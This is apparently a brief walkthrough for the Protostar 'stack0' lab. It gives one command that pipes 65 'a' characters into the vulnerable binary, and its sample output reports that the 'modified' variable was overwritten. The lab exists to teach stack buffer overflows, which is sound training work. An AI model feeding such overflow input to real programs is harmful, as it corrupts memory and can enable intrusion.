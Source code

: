 Type the following: 
`python -c "print 'a'*65" | ./stack0`

Sample output:
```bash
user@protostar:/opt/protostar/bin$ python -c "print 'a'*65" | ./stack0
you have changed the 'modified' variable
```
